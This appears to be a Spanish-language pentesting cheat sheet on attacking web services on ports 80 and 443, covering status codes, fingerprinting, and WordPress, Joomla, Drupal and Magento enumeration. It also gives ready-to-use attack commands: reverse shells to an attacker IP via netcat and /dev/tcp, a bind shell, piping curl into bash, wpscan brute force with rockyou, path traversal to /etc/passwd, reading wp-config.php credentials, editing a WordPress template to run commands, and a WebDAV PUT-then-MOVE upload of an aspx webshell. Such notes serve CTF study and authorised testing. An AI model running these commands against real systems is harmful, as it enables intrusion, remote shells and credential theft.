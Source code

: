 # HTTP 

Tags: #Web #Puerto #Reconocimiento #Escaneo #CMS #Comandos #HTTP #HTTPS 

80 - Este puerto es el que se usa para la navegación web de forma no segura HTTP. 

## Codigos de estado 
* 200 -> OK
- 301 -> Moved Permanently (Follow Redirect)
- 401 -> Unauthorized
- 403 -> Forbidden
- 404 -> Not Found

## URL-Encode
* & = %26

Si la versión del servidor HTTP es “**Apache httpd 2.4.46 o HTTP nginx 1.18.0**“, podemos determinar que el sistema está ejecutando una distribución de Ubuntu. El número de versión “**httpd 2.4.46 o nginx 1.18.0**” se refiere a la revisión específica del paquete de SSH en esa distribución de Ubuntu. A partir de esto, podemos identificar el **codename** de la distribución de Ubuntu, que en este caso sería “**Focal**” para Ubuntu 20.04.
Todas estas búsquedas las aplicamos sobre el siguiente dominio:
-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

### Rutas tipicas
**/var/www/html** Ruta tipica de Apache o Nginx
**/opt/blog/server.js** Ruta por default de Node.js

❯ **Ctrl + u** Para ver el codigo fuente de la pagina web
❯ **Ctrl + r** Recargar la pagina web
❯ **Ctrl + Shift + c** Para inspeccionar el codigo 

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

```bash
❯ whatweb ❮http://IP:PORT❯             # Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
```

```bash
❯ whatweb ❮http://❮IP❯ -v

	# v = Miramos las cabeceras de la pagina web, las cuales aveces nos revelan cosas
```

```bash
❯ curl ❮IP❯ | bash                     # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash
```

```bash
❯ curl -s -X GET http://❮IP❯ -I        # Miramos las cabeceras de respuesta de la pagina web 

	# I = i mayuscula
	# s = silence
```


## ReverShell y BindShell
Este comando lo ejecutamos desde la pagina web para hacer una **ReverShell** : 
1) Cuando tenemos Netcat 
2) Cuando no tenemos Netcat
```bash 
❯ nc -e /bin/bash IP-Atacante 443

❯ bash -i >& /dev/tcp/IP-Atacante/443 0>&1
```

```bash
❯ nc -nlvp 443 -e /bin/bash              # Ejecutamos desde la pagina web para ponernos en escucha y hacer una **BindShell** :
```


# HTTPS 
443 - Este puerto es también para la navegación web, pero en este caso usa el protocolo HTTPS que es seguro y utiliza el protocolo TLS por debajo.

```bash
❯ openssl s_client -connect ❮IP❯:443     # Para conectarnos al openssl e inspeccionar el certificado del puerto 443
```

```bash
❯ sslscan ❮IP❯:8443                      # Te da informacion del ssl de la maquina y si detecta alguna vulnerabilidad te la representa, podemos colocar el puerto si no es el comun 443
```


### WordPress Enumeracion 

Formas de **Enumerar**
* **Usuarios** que aparezcan en la pagina Web, podemos validarlos en el panel de autenticacion **Admin**

**/wp-login.php**    Es la ruta del panel de autenticacion 
**/wp-admin.php** Es la ruta del panel de autenticacion de admin
**/wp-json/wp/v2/users/** Reporta usuarios validos en la pagina de WordPress en formato Json
**/wp-content/plugins** Para ver si podemos hacer directory listing y ver los plugins existentes

```bash
❯ wpscan --url ❮http://IP/❯                               # Detecta vulnerabilidades en un wordPress
```

```bash
❯ wpscan --url <http://URL/> -e u,vp                      # Enumeracion 

	# u = Enumerar usuarios
	# vp = Enumerar plugins vulnerables
```

```bash
❯ wpscan --url <http://URL/> -e vp --api-token="DFFGB15GD68DG618GD81GRD"     # Enumeracion 

	# vp = Enumerar plugins vulnerables
	# api-token = Nos representa de mejor manera las vulnerabilidades porque ya tiene el accceso
```

```bash
❯ wpscan --url <http://IP/> -U <USER> -P /usr/share/wordlists/rockyou.txt # Fuerza bruta

	# P = Ruta del diccionario 
	# U = Usuario valido
```

```bash
❯ curl -s -X GET "http://IP/" | grep -oP 'plugins/\k[^/]+' | sort -u # Filtramos por plugins en la paggina web y ver si alguno es vulnerable, los podriamos buscar en Searchsploit

	# sort u = Quitar los resultados repetidos y dejar los 'unicos'
	# s = Modo silencioso 
```

**/xmlrpc.php** Si esta expuesto, podemos enumerar credenciales validas y solo acepta peticiones por **POST** y que este estructurada en **XML**
* Debemos de listar los metodos y lo haremos con el codigo del archivo y ver si existe el siguiente **getUsersBlogs** y despues aplicar fuerza bruta
* [Xmlrpc-Abuse](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)
```bash
❯ curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml

	# d@ = Indicamos el archivo que usaremos y es que esta abajo 
```

```bash
❯ nano file.xml

	<?xml version="1.0" encoding="utf-8"?> 
	<methodCall> 
	<methodName>system.listMethods</methodName> 
	<params></params> 
	</methodCall>
```


### Joomla Enumeracion 

Esta herramienta ademas de enumerar un servidor Joomla, nos crea un reporte de las vulnerabilidades que encontro.
**/administrator** Es la ruta del panel de autenticacion de admin

```bash 
❯ perl joomscan.pl -u http://IP/
```

### Drupal Enumeracion 

Esta herramienta ademas de enumerar un servidor Drupal

```bash 
❯  droopescan scan drupal --url https://IP/
```

### Magento Enumeracion 

Esta herramienta ademas de enumerar un servidor Magento
**/administration/admin/index** Es la ruta del panel de autenticacion de admin

```bash 
❯  php magescan.phar scan:all https://IP/
```







- **cat wp-config.php | less** Este archivo suele disponer de credenciales de acceso a la base de datos, file que se encuentra dentro de la maquina victimas y lo miramos en formato de pagina
Tmabien podemos usar **wpseku github security scanner**  o **wordpressscan github**, pero la 'mejor' es wpseku 
- Dentro de un WP podemos editar ese template y colocar un comando. Appearance ->Editor -> 404 Template

- /usr/share/davtest/backdoors/**aspx_cmd.aspx**   Ejecutable que al momento de ejecutarse en una pagina Web, nos dara una WebShell

- Comando -> **curl http://< IP> -v** Haremos que nos ejecute un curl para poder ver la cabeceras de la pagina solicitada y su data


- Comando -> **curl -s -X GET http://< IP>/?p=404** Apuntas a una ruta 404 y haces la peticion
- Comando -> **curl -s -X PUT http://< IP>/file.txt -d @file.txt** Para subir un archivo a una pagina web con un comando a la url que lo indicaremos con el @, este archivo debe tener una extencion especifica y permitida por el webdav. El example.txt en la url es el que debe de tener una extencion permitida.
En este caso para ver mejor el contenido de arriba por Burpsuite, aplicamos el siguiente comando
- Comando -> **curl -s -X POST http://< IP>/fielRead.php -d 'file=./.list/....//....//....//....//etc/passwd'** Miramos la resuesta por POST de la pagina web, y a nivel de (d=data) le pasamos eso 
	- fileRead.php -> lo buscamos en el BurpSuite en la cabecera de POST
- Comando -> **curl -s -X MOVE -H “Destination:http://< URL>/cmd.aspx” http://< URL>/cmd.txt** Moveremos el archivo que subimos con extension .txt ya que no puede ser interpretado y le aplicaremos un renombramiento colocandole su extrension .aspx y lo haremos con la cabecera destination. Esto no dara una terminal en la web. (s=silence)
